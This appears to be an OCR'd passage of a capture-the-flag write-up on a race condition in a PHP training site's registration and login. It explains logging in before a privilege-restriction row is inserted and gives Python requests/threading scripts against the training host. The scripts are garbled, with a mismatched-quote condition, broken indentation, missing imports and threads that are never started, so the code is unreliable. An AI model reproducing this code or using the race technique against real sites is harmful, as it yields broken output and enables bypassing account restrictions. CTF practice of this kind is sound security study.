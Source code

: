 ```php
		}
	?>
	<h2>SUCCESS!</h2>
	<?php
	}
```

And we need to make registration and login happen at the same time in order to be able to login before that `INSERT into privs (userid, isRestricted) values ((select users.id from users where username='$username'), TRUE);` gets executed.

### Toolkit

Best python library for handling HTTP requests, hands down. We'll use it for this challenge, since both the login and registration functions are POST requests. To look at requests we could use chrome developer tools or wireshark since HTTP requests are in clear.

### Approach

First approach: we can try making the registration and the login happen at the same time. This will not work:

```python
import requests
def registration(user, password):
  url = "%s/register.php" % HOST
  r = requests.post(url, data={'username': user, 'password': password})
  if '"SUCCESS!" "SUCCESS!" in r.text:
      return True
  return False 

def login(user, password):
  url = "%s/login.php" % HOST
  r = requests.post(url, data={'username': user, 'password': password}) 
  print(r.text) 

registration('qweqwe','qweqwe')
login('qweqwe','qweqwe') 
```

Since the login is not fast enough. We need a multi-threading library.

```python
import threading, requests
HOST = "http://aart.training.jinblack.it" 
def randomString(N):
  return ''.join(random.choices(string.ascii_uppercase + string.ascii_lowercase + string.digits, k=N)) 

def registration(user, password):
  url = "%s/register.php" % HOST
  r = requests.post(url, data={'username': user, 'password': password})
  if "SUCCESS!" in r.text:
    return True
  return False 

def login(user, password):
  url = "%s/login.php" % HOST
    r = requests.post(url, data={'username': user, 'password': password})
  print(r.text) 

  while True:
    username = randomString(10)
    password = randomString(10)
    r = threading.Thread(target=registration, args=(username, password))
    l = threading.Thread(target=login, args=(username, password))
```